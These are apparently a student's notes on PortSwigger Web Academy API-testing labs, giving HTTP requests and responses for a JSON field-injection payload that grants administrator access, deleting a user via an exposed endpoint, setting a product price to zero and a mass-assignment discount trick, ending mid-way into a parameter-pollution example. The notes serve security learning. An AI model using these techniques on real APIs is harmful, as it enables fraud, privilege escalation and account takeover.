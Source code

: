 Request alternative, adding \\:
```http
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```


### Examples from Web Academy Labs
##### Example 1
Task: Delete carlos
We logged in using the supplied creds and found the api through updating the e-mail: `PATCH /api/user/wiener HTTP/2`

| GET /api/user/wiener HTTP/2    | {"username":"wiener","email":"wiener@normal-user.net"}    |
| ------------------------------ | --------------------------------------------------------- |
| GET /api/user HTTP/2           | {"error":"Malformed URL: expecting an identifier"}        |
| GET /api/user/carlos HTTP/2    | {"username":"carlos","email":"carlos@carlos-montoya.net"} |
| DELETE /api/user/carlos HTTP/2 | {"status":"User deleted"}                                 |
##### Example 2
Task: Buy a jacket with nothing
We logged in, put in out cart and tried to buy, failed: no moneys. Found api point: `/api/products/1/price` was used

| OPTIONS /api/products/1/price HTTP/2                                             | HTTP/2 405 Method Not Allowed<br>Allow: GET, PATCH                                                     |
| -------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| patch /api/products/1/price HTTP/2                                               | {"type":"ClientError","code":400,<br>"error":"Only 'application/json' Content-Type is supported"}      |
| Content-Type: application/json;charset=UTF-8<br>Content-Length: 7<br><br>{"":""} | {"type":"ClientError","code":400,<br>"error":"'price' parameter missing in body"}                      |
| {"price":"$0.00"}                                                                | {"type":"ClientError","code":400,<br>"error":"'price' parameter must be a valid non-negative integer"} |
| {"price":0}                                                                      | {"price":"$0.00"}                                                                                      |
Then we go to add a new item to the cart and `Place order`.
*The Content-Type converter was used to set content type to json.*

##### Example 3 - Mass assignment vuln
Task: Buy a jacket with nothing
We logged in, added the jacket to out basket and clicked Place order. Then we went over to burp:

| GET /api/checkout HTTP/2 | {"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]} |
| ------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
We right clicked the request and selected Change Request Method.
Then we used Content-Type-Converter and right click menu, `Extensions`, `Content Type Converter`, `Convert to JSON`. We pasted the json from the responce and changed the percentage to 100.

Sending the request Solved the task.

##### Example 4 - Server side parameter pollution in a query string
Task: To solve the lab, log in as the `administrator` and delete `carlos`.

Looking at the web page we really just have the login page with a reset password. When we try resetting the password for the user administrator, we get into that a mail was sent. This does nothing for other usernames.
